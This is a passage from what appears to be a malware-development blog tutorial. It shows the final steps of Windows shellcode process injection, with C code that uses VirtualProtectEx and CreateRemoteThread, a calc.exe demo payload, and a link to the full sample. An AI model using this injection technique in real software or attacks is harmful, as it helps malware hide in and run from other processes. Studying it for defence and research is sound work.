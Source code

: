 To change the memory permission we use `VirtualProtectEx` so that we can execute the memory region where our shellcode is.

```c
VirtualProtectEx(hProcess, allocatedMemory, sizeof(shellcode), PAGE_EXECUTE_READ, &oldProtect) == 0
```

### 6. Create a remote thread to run the shellcode.

With executable memory you can create a remote thread that starts at the allocated address. 

```c
HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)allocatedMemory, NULL, 0, NULL);
if (!hThread) {
    // handle error
} else {
    WaitForSingleObject(hThread, INFINITE);
    CloseHandle(hThread);
}
```

And right there you have your shellcode executed ! 

If your shellcode was “open calc.exe” you now have a right to do all the calculation you want :D

![Screenshot 2025-09-20 162542.png](https://raw.githubusercontent.com/WinDyAlphA/miscDownloads/refs/heads/main/maldev4.png)

You can find the complete file here : [basic.c](https://github.com/WinDyAlphA/maldevSamples/blob/main/basic.c)

---

I’m really in love with maldev right now, so i will try my best to dig this topic and to document this.

Thanks you for reading,
Enjoy the rest of your day.